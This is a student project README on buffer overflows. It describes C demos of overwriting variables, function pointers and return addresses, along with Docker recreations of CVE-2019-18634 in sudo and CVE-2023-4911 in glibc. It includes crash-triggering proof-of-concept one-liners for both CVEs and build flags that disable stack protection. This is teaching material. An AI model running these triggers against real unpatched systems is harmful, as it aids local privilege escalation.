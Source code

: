 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-22041afd0340ce965d47ae6ef1cefeee28c7c493a6346c4f15d667ab976d596c.svg)](https://classroom.github.com/a/am3xLbu5)

# Buffer Overflows

### Buff Guys

Elias Xu, Jakob Weir, Julien Diamond

### Project Description:

This project aims to give a brief description of the cybersecurity concept of buffer overflows and show some demos, along with real life exploits.

Since C is the programming language that is easiest to show / understand memory overwrites and buffer overflows, we'd be using that for the project. However, we'd be using the stuy computers and dockerfiles to replicate the exact environment that is needed to run the exploit.

### Instructions:

There are multiple different different programs that are in this.

`working_demo.c`

`working_demo.c` is a proof of concept (POC) of the concept of buffer overflows. It's a simply strcopy that doesn't check for size, which can overflow the buffer.

To run, use these following commands:

```sh
# run whatever you want, you can overflow the buffer if you enter more than ~5 characters
make working_demo ARGS=aaaaaaaa
```

`changing_variable.c`

`changing_variable.c` demonstrates how buffer overflow can change / overwrite a variable name. When one overflows the buffer, the following variable's value will be overwritten, which is detected by the program and printed to output. 

To run, use these following commands:

```sh
# this will hopefully overwrite the buffer, changing the variable
make variable_change
> msksmadsmfnadsf
```

`function_pointing.c`

`function_pointing.c` demonstrates the use of gdb and how one can overwrite functions to perform actions that are not intended by the writers of the program (in this case, of course, it's fully intended, but let's ignore that). By default, the normal function will run, but through overwriting of variables the special or the other function can be run.

There are two functions that can be substituted into the program, one which uses simple piping while the other one uses more complex payloads. 

To run, use/execute these following commands:

```sh
make function_pointing
gdb functions
# inside gdb find the function pointers either for the special function or the other function
# then you could either do a run <<< python -c "print('A' * 13 [enough to overflow] + pointer code)"
# or first write that into a payload and then insert it into the run function
```

`demo2-4.c`

`demo2-4.c` similarly uses buffer overflow to call a special function, but it overwrites the return address of another function rather than the pointer to originally call the function.

to run:
```
gcc demo2-4.c -o demo2-4 -zexecstack -fno-stack-protector -no-pie -g
gdb demo2-4
(gdb) disas specialFunctions
# find the memory address of specialFunctions
(gdb) quit
# create input consisting of 16 filler bytes + memory address of specialFunctions
./demo2-4 < input.txt
```

`pwfeedback`

`pwfeedback` recreates the CVE-2019-18634 vulnerability, where when enabling the pwfeedback option for sudo (which makes * when you enter your password can lead to buffer overflows). The container cannot spawn a root shell, but the POC of the vulnerability does exist. 

To run the docker container and see the POC:

```sh
make deploy_pwfeedback
# inside the container run the show the seg fault
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | ./sudo -S id
```

`loony`

`loony` recreates the CVE-2023-4911 vulnerability, also called Looney Tunables, which exploits a coding issue in glibc to cause some shenanagins. Just as in pwfeedback, the exploit code to get the root shell doesn't work here, but it does allow you to run the POC. However, tryhackme has a working attackbox that allows you to run the exploit, which we'll demonstrate. 

to run the docker container and see the POC:

```sh
make deploy_loony
# inside the container run the show the seg fault
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

### Resources/ References:

- https://en.wikipedia.org/wiki/NOP_slide
- https://nvd.nist.gov/vuln/detail/cve-2019-18634
- https://y3a.github.io/2021/03/03/sudo-cve-analysis/
- https://tryhackme.com/room/looneytunes
- https://blog.qualys.com/vulnerabilities-threat-research/2023/10/03/cve-2023-4911-looney-tunables-local-privilege-escalation-in-the-glibcs-ld-so 
- https://www.picussecurity.com/resource/blog/cve-2023-4911-looney-tunables-local-privilege-escalation-vulnerability 
- https://tryhackme.com/room/bof1 
- https://l1ge.github.io/tryhackme_bof1/ 
- https://medium.com/@cyberlarry/walkthrough-tryhackme-buffer-overflows-task-7-overwriting-function-pointers-ac1336979261
- https://iamalsaher.tech/posts/2020-02-08-cve-2019-18634/ 
- https://stackoverflow.com/questions/4700998/explain-stack-overflow-and-heap-overflow-in-programming-with-example
- https://computerarcheology.com/Virus/MorrisWorm/?utm_source=chatgpt.com
